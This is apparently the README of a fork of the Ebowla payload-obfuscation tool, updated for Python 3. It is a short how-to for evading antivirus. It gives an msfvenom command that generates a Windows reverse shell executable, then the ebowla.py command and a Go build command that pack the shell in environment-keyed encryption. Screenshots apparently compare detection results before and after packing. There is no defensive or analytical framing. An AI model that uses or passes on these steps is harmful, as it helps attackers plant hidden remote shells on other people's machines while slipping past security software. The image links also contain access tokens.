 # 3 B O W L A
## Ebowla Fork to add Python3 Support
### project is currently ongoing, so obviously not everything works (honestly nothing really works)

buuuuuut if the output type is set to GO in the generic config, all compatible payload types will work (we think... maybe). What follows here definitely works and the other functionalities will follow asap. Cheers!

## How to use it (if you don't know how to use Ebowla yet)

### edit generic.config:

change:

output_type = GO

payload_type = EXE

Set at least one environment variable (computername = hostname),
the name has to be exact, as Ebowla won't decrypt otherwise.

### make payload

Make, as an example, a reverse shell payload with metersploit: 

```msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT= -f exe -a x64 -o shell.exe```

### build executable with Ebowla

```python3 ebowla.py shell.exe genetic.config```

![](https://raw.githubusercontent.com/ohoph/cheatsheats/master/ebowla/images/2019-12-13_09-42.png?token=ANDZTD52FKYQIOMKV3RBKUC56NLDI)

```./build_x64_go.sh output/<outputfilefromfirststeps> <finalfilename>```

![](https://raw.githubusercontent.com/ohoph/cheatsheats/master/ebowla/images/2019-12-13_09-47.png?token=ANDZTDZ4WQD7BAUW45VQUWK56NLHO)

The finished, packed executable can be found in the **output** folder.

### Results!

### without Ebowla

![](https://raw.githubusercontent.com/ohoph/cheatsheats/master/ebowla/images/2019-12-13_09-50.png?token=ANDZTD3RLAGGH5XC3FN3A2S56NLMI)

### same executable with the use of Ebowla

![](https://raw.githubusercontent.com/ohoph/cheatsheats/master/ebowla/images/2019-12-13_09-52.png?token=ANDZTD3BMQF7CAHDMEHEVZC56NLMQ)
